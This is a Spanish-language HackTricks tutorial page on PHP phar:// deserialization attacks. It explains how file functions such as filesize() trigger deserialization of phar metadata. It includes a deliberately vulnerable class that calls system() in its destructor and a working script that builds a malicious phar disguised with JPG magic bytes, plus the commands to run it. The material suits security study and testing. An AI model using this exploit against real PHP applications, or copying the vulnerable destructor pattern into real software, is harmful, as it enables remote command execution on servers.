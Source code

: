 # phar:// deserialization

{{#include ../../banners/hacktricks-training.md}}

**Los** archivos **Phar** (PHP Archive) **contienen metadatos en formato serializado**, por lo que, al ser analizados, estos **metadatos** son **deserializados** y puedes intentar abusar de una vulnerabilidad de **deserialización** dentro del código **PHP**.

Lo mejor de esta característica es que esta deserialización ocurrirá incluso utilizando funciones de PHP que no evalúan código PHP como **file_get_contents(), fopen(), file() o file_exists(), md5_file(), filemtime() o filesize()**.

Así que, imagina una situación en la que puedes hacer que un web PHP obtenga el tamaño de un archivo arbitrario utilizando el protocolo **`phar://`**, y dentro del código encuentras una **clase** similar a la siguiente:
```php:vunl.php
<?php
class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

filesize("phar://test.phar"); #The attacker can control this path
```
Puedes crear un archivo **phar** que, al ser cargado, **abuse de esta clase para ejecutar comandos arbitrarios** con algo como:
```php:create_phar.php
<?php

class AnyClass {
public $data = null;
public function __construct($data) {
$this->data = $data;
}

function __destruct() {
system($this->data);
}
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new AnyClass('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();
```
Tenga en cuenta cómo los **bytes mágicos de JPG** (`\xff\xd8\xff`) se agregan al principio del archivo phar para **eludir** **posibles** restricciones de **carga** de archivos.\
**Compile** el archivo `test.phar` con:
```bash
php --define phar.readonly=0 create_phar.php
```
Y ejecuta el comando `whoami` abusando del código vulnerable con:
```bash
php vuln.php
```
### Referencias


{{#ref}}
https://blog.ripstech.com/2018/new-php-exploitation-technique/
{{#endref}}

{{#include ../../banners/hacktricks-training.md}}
